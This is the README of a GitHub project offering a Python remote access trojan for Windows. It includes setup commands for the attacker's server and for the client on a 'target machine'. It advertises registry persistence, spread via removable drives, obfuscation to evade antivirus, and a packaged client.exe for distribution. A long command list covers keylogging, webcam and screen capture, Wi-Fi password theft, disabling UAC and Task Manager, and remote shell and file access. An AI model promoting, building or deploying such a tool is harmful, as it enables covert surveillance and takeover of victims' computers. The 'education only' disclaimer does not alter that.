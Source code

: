 # **Python RAT - Remote Access Tool**

This project is an advanced Remote Access Tool (RAT) for Windows systems, written in Python. It has been modified and improved from an original repository with several additional features.

## **Target Systems**

Windows operating systems.

## **Requirements**

Before running the RAT, ensure you have the following modules and dependencies installed:

- Pillow
- pywin32
- opencv-python
- comtypes
- pycaw (requires C++ Build Tools) (optional feature)
- pyautogui
- vidstream (requires VS Code) (optional feature)

Additional requirements:

- Python 3.x installed.
- PyInstaller is used for compiling to an executable.

## **Server Usage**

Follow these steps to run the server:

```bash
git clone https://github.com/Isi-17/Python-RAT
cd Python-RAT
pip install -r server_requirements.txt
python server.py
```

## **Client Usage**

To run the client on the target machine:

```bash
git clone https://github.com/Isi-17/Python-RAT
cd Python-RAT
pip install -r client_requirements.txt
pythonw client.pyw
```

### **Improvement made:**

The client has also been packaged as an executable for easier distribution:

- The compressed executable file is located in the `dist` folder under the name **client.exe**.

## **Modifications Made**

The following enhancements and additional features have been added to the original code:

### 1. **Persistence (Function f1)**

A persistence feature has been added that allows the RAT to run automatically when the operating system starts. This function creates a registry key in the Windows system to ensure continuous execution.

### 2. **Automatic Propagation to Removable Media (Function f2)**

The RAT can now automatically replicate itself on connected devices. This functionality enables malware propagation through removable drives.

### 3. **Code Obfuscation**

The entire client code (`client.pyw`) has been obfuscated, significantly reducing the likelihood of detection by antivirus programs. This helps avoid detection by analysis tools such as VirusTotal.

### 4. **Compilation to Executable**

The RAT has been packaged as an executable file (**client.exe**) in the `dist` folder, allowing easier distribution without relying on Python installation on the target machine.

## **Available Commands in the RAT**

### **System**

```bash
help                      # List all available commands
writein <text>            # Write text to the currently opened window
browser                   # Perform a query in the browser
turnoffmon                # Turn off the monitor
turnonmon                 # Turn on the monitor
reboot                    # Reboot the system
drivers                   # List all drivers of the PC
kill                      # Terminate a system task
sendmessage               # Send a messagebox with text
cpu_cores                 # Number of CPU cores
systeminfo (extended)     # Extended system information (via cmd)
tasklist                  # List all running tasks
localtime                 # Display the current system time
curpid                    # PID of the client's process
sysinfo (shrinked)        # Basic system information (Python-based)
shutdown                  # Shutdown the client's PC
isuseradmin               # Check if the user is an admin
extendrights              # Extend system privileges
disabletaskmgr            # Disable Task Manager
enabletaskmgr             # Enable Task Manager
disableUAC                # Disable User Account Control (UAC)
monitors                  # List all connected monitors
geolocate                 # Get the computer's location
volumeup                  # Increase system volume to 100%
volumedown                # Decrease system volume to 0%
setvalue                  # Set a value in the registry
delkey                    # Delete a key from the registry
createkey                 # Create a key in the registry
setwallpaper              # Set the desktop wallpaper
exit                      # Terminate the RAT session
```

### **Shell**

```bash
pwd                       # Get the current working directory
shell                     # Execute commands via cmd
cd                        # Change directory
[Driver]:                 # Change to specified drive
cd ..                     # Move to the previous directory
dir                       # List all files in the current directory
abspath                   # Get absolute path of files
```

### **Network**

```bash
ipconfig                  # Show local IP
portscan                  # Perform a port scan
profiles                  # List network profiles
profilepswd               # Show password for a network profile
```

### **Input Devices**

```bash
keyscan_start             # Start keylogger
send_logs                 # Send captured keystrokes
stop_keylogger            # Stop keylogger
disable(--keyboard/--mouse/--all) # Disable input devices
enable(--keyboard/--mouse/--all)  # Enable input devices
```

### **Video**

```bash
screenshare               # Share the remote PC's screen
webcam                    # Capture video from the webcam
breakstream               # Stop the webcam/screenshare stream
screenshot                # Take a screenshot
webcam_snap               # Capture a photo from the webcam
```

### **Files**

```bash
delfile <file>            # Delete a file
editfile <file> <text>    # Edit a file
createfile <file>         # Create a file
download <file> <homedir> # Download a file
upload                    # Upload a file
cp <file1> <file2>        # Copy a file
mv <file> <path>          # Move a file
searchfile <file> <dir>   # Search for a file in a specified directory
mkdir <dirname>           # Create a directory
rmdir <dirname>           # Remove a directory
startfile <file>          # Open or execute a file
readfile <file>           # Read contents of a file
```


## Disclamer

THIS SOFTWARE IS INTENDED ONLY FOR EDUCATION PURPOSES! DO NOT USE IT TO INFLICT 
DAMAGE TO ANYONE! USING MY APPLICATION YOU ARE AUTHOMATICALLY AGREE WITH ALL RULES AND
TAKE RESPONSIBITITY FOR YOUR ACTION! THE VIOLATION OF LAWS CAN CAUSE SERIOUS CONSEQUENCES!
THE DEVELOPER FZGbzuw412 ASSUMES NO LIABILITY AND IS NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE 
CAUSED BY THIS PROGRAM.

## Licence
  
    Copyright (c) 2022 FZGbzuw412

    Permission is hereby granted, free of charge, to any person obtaining a copy
    of this software and associated documentation files (the "Software"), to deal
    in the Software without restriction, including without limitation the rights
    to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
    copies of the Software, and to permit persons to whom the Software is
    furnished to do so, subject to the following conditions:

    The above copyright notice and this permission notice shall be included in all
    copies or substantial portions of the Software.

    THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
    IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
    FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
    AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
    LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
    OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
    SOFTWARE.
